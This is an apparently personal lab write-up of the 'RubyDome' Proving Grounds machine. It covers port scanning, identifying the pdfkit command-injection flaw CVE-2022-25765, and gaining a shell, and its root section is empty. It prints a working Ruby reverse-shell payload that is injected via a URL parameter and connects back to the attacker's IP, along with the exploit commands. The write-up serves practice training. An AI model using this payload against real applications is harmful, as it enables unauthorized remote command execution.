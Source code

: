 # RubyDome
Proving Grounds Practice
Intermediate 


## Enumeration

## Possible Username Discovered
Sinatra -> Found this on robots.txt


### Target Scan 
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
3000/tcp open  http    WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07))
|_http-title: RubyDome HTML to PDF
|_http-server-header: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



### SSH 22
Version - OpenSSH 8.9p1

### HTTP 3000
Version - WEBrick httpd 1.7.0
Header Info - WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
This webserver is vulnerabile to this attack, https://www.exploit-db.com/exploits/51293.

https://github.com/UNICORDev/exploit-CVE-2022-25765?tab=readme-ov-file


## Exploit
I discovered this exploit online, https://www.exploit-db.com/exploits/51293.
https://github.com/UNICORDev/exploit-CVE-2022-25765?tab=readme-ov-file

I ran the below command to get the ruby payload. Providing the port 4444, I setup a netcat listener and ran the next command which resulted in a reverse shell on the target machine. 

```
└─$ python3 exploit.py -s 192.168.45.188 4444
        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.45.188","4444"))'`                                                                    
LOCALIP: 192.168.45.188:4444
WARNING: Be sure to start a local listener on the above IP and port.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.                  
```


```
$ python3 exploit.py -s 192.168.45.188 4444 -w http://192.168.173.22:3000/pdf -p url

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Sent to Target Website Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("192.168.45.188","4444"))'`                                                                    
LOCALIP: 192.168.45.188:4444
WARNING: Be sure to start a local listener on the above IP and port. "nc -lnvp 4444".
WEBSITE: http://192.168.173.22:3000/pdf
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.

```
### Local Flag


```
andrew@rubydome:~/app$ id
id
uid=1001(andrew) gid=1001(andrew) groups=1001(andrew),27(sudo)
andrew@rubydome:~/app$ cd ..
cd ..
andrew@rubydome:~$ ls
ls
app  local.txt
andrew@rubydome:~$ cat local.txt
```
### Root Flag




